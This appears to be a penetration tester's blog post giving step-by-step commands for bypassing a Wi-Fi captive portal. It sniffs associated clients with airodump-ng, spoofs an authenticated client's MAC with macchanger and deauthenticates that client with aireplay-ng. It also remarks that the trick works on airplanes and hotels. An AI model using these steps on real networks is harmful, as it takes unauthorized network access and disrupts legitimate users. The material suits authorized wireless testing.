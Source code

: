```yaml
---
layout: post
title: Bypassing Wireless Captive Portals
categories: [pentest, wireless, bypass]
tags: [captive portal, wireless, bypass]
comments: true
---
```

# Bypassing Wireless Captive Portals

Ocassionally, on client projects I come across Guest Wireless Networks that require a login once connected to an AP of the Guest Network for further network/Internet access. In many cases this can be bypassed by spoofing the MAC address of a client that has already connected and authenticated to an AP.  The reason this works is that an authenticated user’s MAC is given an IP that is allowed on the network, so when spoofing a MAC address, there is no need to authenticate as the MAC address is already allowed on the network. The steps below can be used to obtain a MAC address, spoof it and reconnect to an AP bypassing the captive portal login.

**disclaimer**

In addition to client sites, this also works on airplanes, hotels and cruise ships, so please use your powers for good and only perform actions on networks in which you have authorization. 

## Requirements
1.	MAC Changer
*	sudo apt install macchanger
2.	Aircrack-ng
* sudo apt install aircrack-ng

## Bypass Steps
In the examples below I had 2 wireless interfaces: a built in wireless card (wlx8416f907e91f) and a USB wireless card (wlan0).

1.	See what MACs are associated to the AP
* sudo airodump-ng <interface> --ivs
*	sudo airodump-ng wlx8416f907e91f –ivs
 
From the above we can see A0:3D:6F8B:5D:A0 is the BSSID of an AP (MAC address) of the target Guest Wifi and 70:70:0D:72:2C:3C is a client associated and hopefully authenticated with the AP.
2.	Bring the interface down in preparation to spoof the MAC address
* sudo ifconfig <interface> down
* sudo ifconfig wlan0 down
3.	Spoof the MAC address
* sudo macchanger --mac <MAC to spoof> <interface>
* sudo macchanger --mac 70:70:0D:72:2C:3C wlan0
4.	Bring interface back up
*	sudo ifconfig <interface> up
*	sudo ifconfig wlan0 up
5.	Deauth client, hoping to move them to a different AP so there is not a conflict. **This step is optional.
*	sudo aireplay-ng -0 1 -a <BSSID> -c <client MAC> <interface>
*	sudo aireplay-ng -0 1 -a A0:3D:6F8B:5D:A0 -c 70:70:0D:72:2C:3C wlan0
6.	Connect the interface to the target SSID as normal.
7.	Release and renew your IP address now with the spoofed MAC.
*	sudo dhclient -r && sudo dhclient -v <interface>
*	sudo dhclient -r && sudo dhclient -v wlan0
8.	Profit
